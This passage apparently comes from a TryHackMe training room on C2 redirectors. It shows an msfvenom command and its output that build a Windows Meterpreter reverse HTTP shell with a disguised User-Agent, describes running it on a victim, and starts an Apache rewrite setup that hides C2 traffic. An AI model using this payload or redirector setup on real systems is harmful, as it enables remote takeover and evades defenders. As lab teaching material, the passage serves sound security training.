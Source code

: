 
  

Using Meterpreter, we have the ability to configure various aspects of the HTTP Request, for example, the User-Agent. It is very common for a threat actor to make a slight adjustment to the User-Agent in their C2 HTTP/HTTPS payloads. It's in every HTTP request, and they all more or less look the same, and there is a very good chance a security analyst may overlook a modified user agent string. For this demonstration, we will generate a Meterpreter Reverse HTTP payload using MSFvenom; then we will inspect the HTTP request in Wireshark. 

  

**Generating a Payload with Modified Headers -**

  

Generating a ModifiedHTTPPayload withMeterpreter

```shell-session
root@kali$ msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 454 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

After generating the modified executable and transferring it to a victim, open up Wireshark on your host and use the `HTTP` filter to only view HTTP requests. After it's started capturing packets, execute the binary on the victim system. You will notice an HTTP request come in with our modified User-Agent.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/b842ee1430892fa04c092531b9383f4f.png)

_Packet Capture of the modified HTTP Payload with Meterpreter_

Now that we have a field we can control in the HTTP Request, let's create an Apache2 mod_rewrite rule that filters on the user agent "NotMeterpreter" and forward it to our Metasploit C2 Server.

Modifying the Apache Config File - 

This section may sound intimidating but is actually quite easy; we will be taking the default Apache config and modifying it to our advantage. On Debian based systems, the default config can be found at `/etc/apache2/sites-available/000-default.conf`.

Default Apache2 Config

```shell-session
root@kali$  cat /etc/apache2/sites-available/000-default.conf  | grep -v '#'
<VirtualHost *:80>

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        <Directory>
                AllowOverride All
        </Directory>

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

```
